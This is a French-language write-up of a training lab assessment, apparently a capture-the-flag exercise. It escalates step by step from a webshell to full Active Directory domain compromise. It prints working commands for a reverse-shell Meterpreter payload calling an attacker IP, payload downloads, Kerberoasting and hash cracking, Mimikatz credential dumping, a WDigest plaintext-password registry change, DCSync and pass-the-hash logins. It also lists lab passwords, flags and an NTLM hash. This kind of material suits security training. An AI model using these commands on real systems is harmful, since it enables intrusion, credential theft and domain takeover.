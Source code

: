 # SKILLS ASSESSMENT I

***

### <mark style="color:red;">**Scénario**</mark>

Nous disposons d'un Webshell sur un serveur accessible publiquement et connecté à un domaine. L'objectif est d'escalader les privilèges jusqu'à la compromission du Domain Controller (DC).

***

### <mark style="color:red;">**Question 1 : Récupération du Flag sur le Web Server**</mark>

1. **Accès au Webshell**
   * Naviguer vers `/uploads/antak.aspx`
   * Entrer les identifiants fournis
2. **Lecture du fichier `flag.txt`**
   * Utiliser la commande `dir` pour explorer l'arborescence.
   *   Lire le fichier avec :

       ```powershell
       type C:\Users\Administrator\Desktop\flag.txt
       ```

***

### <mark style="color:red;">**Question 2 : Kerberoasting sur MSSQLSvc / SQL01**</mark>

1. **Obtenir un shell interactif (Meterpreter)**
   *   Générer un payload avec `msfvenom` :

       {% code overflow="wrap" fullWidth="true" %}
       ```bash
       msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.10.14.167 -f exe -o backupscript.exe LPORT=4444
       ```
       {% endcode %}
   *   Déployer le fichier via `Invoke-WebRequest` :

       {% code overflow="wrap" %}
       ```powershell
       Invoke-WebRequest -Uri "http://10.10.14.124:8000/backup.exe" -OutFile "C:\windows\system32\inetsrv\backup.exe"
       ```
       {% endcode %}
   * Écouter la connexion sur Metasploit : `exploit/multi/handler`
2. **Kerberoasting avec PowerView**
   *   Importer PowerView :

       {% code overflow="wrap" fullWidth="true" %}
       ```powershell
       Invoke-WebRequest -Uri "http://10.10.14.124:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
       ```
       {% endcode %}
   *   Identifier l'utilisateur Kerberoastable :

       ```powershell
       Get-DomainUser * -spn | select samaccountname
       ```
   * **Utilisateur ciblé :** `svc_sql`

***

### <mark style="color:red;">**Question 3 : Cracking du mot de passe**</mark>

1.  **Extraction du ticket TGS**

    ```powershell
    Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
    ```

    * Sauvegarde du hash
2.  **Cracking avec Hashcat**

    ```bash
    hashcat -m 13100 -a 0 /tmp/svc_sql_Hashe.txt /usr/share/wordlists/rockyou.txt
    ```

    * **Mot de passe :** `lucky7`

***

### <mark style="color:red;">**Question 4 : Récupération du Flag sur MS01**</mark>

1.  **Connexion en PSSession**

    {% code overflow="wrap" %}
    ```powershell
    $user = "inlanefreight\svc_sql"
    $Password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
    $credentials = New-Object System.Management.Automation.PSCredential ($user, $Password)
    Enter-PSSession -ComputerName "MS01.inlanefreight.local" -Credential $credentials
    ```
    {% endcode %}
2.  **Récupération du Flag**

    ```powershell
    type C:\Users\Administrator\Desktop\flag.txt
    ```

    * **Flag :** `spn$_r0ast1ng_on_@n_0p3n_f1re`

***

### <mark style="color:red;">**Question 5 & 6 : Extraction de mots de passe en clair**</mark>

1.  **Dump des identifiants avec Mimikatz**

    ```powershell
    sekurlsa::logonpasswords
    ```

    * **Utilisateur trouvé :** `tpetty`
2.  **Activer l'enregistrement des credentials en clair**

    {% code overflow="wrap" fullWidth="true" %}
    ```powershell
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value 1
    Restart-Computer
    ```
    {% endcode %}

    * **Mot de passe :** `Sup3rS3cur3D0m@inU2eR`

***

### <mark style="color:red;">**Question 7 : Privileges d'attaque de tpetty**</mark>

1.  **Vérifier les permissions avec PowerView**

    {% code overflow="wrap" %}
    ```powershell
    $sid= Convert-NameToSid tpetty
    Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid}
    ```
    {% endcode %}

    * **Attaque possible :** `DCSync`

***

### <mark style="color:red;">**Question 8 : Compromission du Domaine et Extraction du Flag**</mark>

1.  **DCSync Attack avec Mimikatz**

    {% code overflow="wrap" %}
    ```powershell
    mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
    ```
    {% endcode %}

    * **Hash Admin :** `27dedb1dab4d8545c6e1c66fba077da0`
2. **Connexion à DC01 via Evil-WinRM**
   *   Port forwarding :

       ```powershell
       portfwd add -l 9999 -p 5985 -r 172.16.6.3
       ```
   *   Connexion :

       {% code overflow="wrap" %}
       ```bash
       evil-winrm -i localhost --port 9999 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
       ```
       {% endcode %}
3.  **Récupération du Flag final**

    ```powershell
    type C:\Users\Administrator\Desktop\flag.txt
    ```

***
